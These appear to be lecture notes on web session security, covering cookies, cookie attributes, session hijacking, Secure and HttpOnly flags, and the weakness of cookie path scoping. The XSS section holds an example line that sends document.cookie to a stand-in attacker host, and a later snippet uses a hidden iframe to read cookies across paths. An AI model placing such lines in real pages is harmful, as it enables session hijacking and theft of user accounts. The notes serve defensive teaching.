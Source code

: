 ```yaml
---
title: Lecture 3 Session Attacks
---
```



* The server can set cookies with `Set-Cookie: theme=dark;` (Header Name, Cookie Name, Cookie Value).
* The browser automatically adds cookies with every request.
* Cookies are so old they precede the SOP. You basically set an expiration date on the Cookie and clear it by setting a date in the past.
* Sign cookies to prevent tampering.

### Sessions
* Server wants to keep data about the user over multiple requests. (ex: Logins, shopping carts, user tracking)
* **Ambient Authority**: access control based on global/persistent property of the user (as long as they specify an action, it will be done).
There are 4 ways of doing this: Cookies (common), IP checking (used at Stanford for lib resources), built-in HTTP auth (rare), client certs (rare)
* Generate a random number, use that as session ID and store it. Make these unguessable and delete them from DB on logout.

### Signature Schemes
* Triple of algorithms (G, S, V)
* Generator (`G() -> (pk, sk)`), Signer (`S(sk, x) -> t`), Verifier (`V(pk, x, t) -> accept/reject`).

### History of Cookies
* Implemented in 1994 in Netscape, described in 4 pages. No spec for 17 years.
* Ad-hoc design has led to interesting issues.
* There were several attempts but they had incompatible changes -- one in 1997, another in 2000 (Cookie2), and finally one succeeded (RFC 6265) in 2011.
* Cookies are a weird special case that behaves differently from everything else on the web.

### Cookie Attributes
* Expires: Specifies expiration date. If no date, lasts for session (until you close browser, but now there's session restoration).
* Path: Scope the "Cookie" header to a particular path prefix. e.g. `Path=/docs` matches `/docs` and `/docs/web`. Don't use this for security.

### Accessing Cookies from JS
* `document.cookie = 'name=Feross'`
* `document.cookie = 'favoriteFood=Cookies; Path=/'`
* `document.cookie` is now `name=Feross; favoriteFood=Cookies;` (it didn't delete)
* `document.cookie = 'name=; Expires=Thu, 01 Jan 1070...'` in order to delete

### Session Hijacking
* Session hijacking works by stealing cookies.
* This can happen over HTTP (not S).
* Use `Secure` cookie attribute to prevent the cookie from being sent over unencrypted HTTP.
* e.g. `Set-Cookie: key=value; Secure` (or just use HTTPS for the whole website.)
* XSS: Attacker can insert their code and easily exfiltrate the user's cookie. 
* e.g. `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
* Protect cookies from XSS: Prevent it from being used in JS: `Set-Cookie: key-value; Secure; Httponly`

#### How to get around path restriction for cookies: add an iframe. 
```
const iframe = document.createElement('iframe')
iframe.src= = 'https://web.stanford.edu/class/cs106a'
document.body.append(iframe)
iframe.style.display = 'none' // Set iframe to be invisible
// contentDocument is the equivalent of their document. We can cross
// this boundary to see their equivalent of document
iframe.contentDocument.cookie
```
Only use path as an optimization!

#### How do we make the cookie `path` secure?
* No.
* Cookies can only be accessed by equal or more-specific domains, so use subdomains (e.g. `cs106a.stanford.edu` vs `cs253.stanford.edu`).
* We just always set `Path=/` and don't ever rely on it. 
* `Set-Cookie: key=value; Secure; HttpOnly; Path=/`: Set cookie, 


